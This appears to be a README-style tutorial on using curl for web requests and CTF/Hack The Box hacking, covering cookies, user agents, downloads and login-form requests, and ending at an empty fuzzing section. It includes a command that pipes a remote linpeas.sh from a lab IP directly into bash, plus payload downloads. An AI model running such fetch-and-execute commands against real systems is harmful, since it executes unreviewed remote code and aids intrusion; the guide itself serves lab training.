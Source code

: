 # Hacking With cURL
A list of examples and references of hacking with Bash and the Curl command.

## What the heck is cURL?
cURL is short for "Client URL" and is a computer software project providing a library (libcurl) and command-line tool (curl) first released in 1997. It is a free client-side URL transfer library that supports the following protocols:
`Cookies, DICT, FTP, FTPS, Gopher, HTTP/1, HTTP/2, HTTP POST, HTTP PUT, HTTP proxy tunneling, HTTPS, IMAP, Kerberos, LDAP, POP3, RTSP, SCP, and SMTP`
Although attack proxies like BurpSuitePro are very handy tools, cURL allows you to get a bit closer to the protocol level, leverage bash scripting and provides a bit more flexibility when you are working on a complex vulnerability.

## cURL GET parameters
HTTP GET variables can be set by adding them to the URL.
Here is a simple get request example:
```
Save curls output into a file
$ curl -o mygettext.html http://www.gnu.org/software/gettext/manual/gettext.html
```

## cURL POST parameters
HTTP POST variables can be set using the -d (--data) parameter.  
Here is a simple login test example:  
```
curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```
## cURL COOKIEs
cURL has an entire cookie engine that can be used to store and load cookies passed to it from a server between sessions:
```
curl -b oldcookies.txt -c newcookies.txt http://10.10.10.10/login.php
```
You can also specify your own cookies using the -b parameter:
```
curl -b "PHPSESSID=vn0g4d94rs09rgpqga85r9bnia" http://10.10.10.10/home.php
```

## cURL User Agents
```
curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" http://10.10.10.10/login.php
```

## cURL Save the server response to a file
```
curl -o payload.sh http://10.10.10.10/payload.sh
```

## cURL download a file to the current folder
```
curl -O http://10.10.10.10/payload.zip
```

## cURL follow HTTP/1.1 302 Found redirects
```
curl -L http://10.10.10.10/profile.php
```

## cURL view verbose debugging information
```
curl -v http://10.10.10.10/profile.php
```

# Hacking with cURL
Now that we have covered the basic syntax and use cases, here are some practical hacking applications that are very helpful on Hackthebox or CTF boxes.

## Using cURL to pipe a remote scipt (linpeas.sh) directly to bash:
```
curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

## Attacking a Login Form with cURL
```
curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```

## Creating new users with cURL
```
curl --data "name=test&email=test@test.com&password=test" http://10.10.10.10/newuser.php
```

# Fuzzing Web Servers with cURL
Often we performing an assessment against a webserver, we will attempt to trigger error conditions which will provide some deeper insights into the underlying processes and software. cURL can be a powerful fuzzing tool for generating these edge case error messages.

## Fuzzing with URL length limits with cURL

```

```
